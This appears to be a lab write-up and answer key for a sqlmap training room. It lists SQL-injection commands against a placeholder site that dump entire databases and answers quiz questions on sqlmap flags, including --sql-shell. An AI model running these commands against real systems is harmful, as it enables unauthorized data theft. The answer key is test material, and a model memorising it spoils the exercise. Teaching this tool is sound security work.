 **Using GET based Method**

`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`  
  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all`  

  
**Using POST based Method**

`sqlmap -r req.txt -D <database_name> --dump-all`  
  
`sqlmap -r req.txt-p  -D <database_name> --dump-all`  


___Answer the questions below

Which flag or option will allow you to add a URL to the command?
	
	-u

Which flag would you use to add data to a POST request?
	
	--data

There are two parameters: username and password. How would you tell sqlmap to use the username parameter for the attack?
	
	-p username

Which flag would you use to show the advanced help menu?
	
	-hh
Which flag allows you to retrieve everything?
	
	-a

Which flag allows you to select the database name?
	
	-D

Which flag would you use to retrieve database tables?
	
	--tables

Which flag allows you to retrieve a table’s columns?  
	
	--columns

Which flag allows you to dump all the database table entries?
	
	--dump-all

Which flag will give you an interactive SQL Shell prompt?
	
	--sql-shell

You know the current db type is 'MYSQL'. Which flag allows you to enumerate only MySQL databases?
	
	--dbms=mysql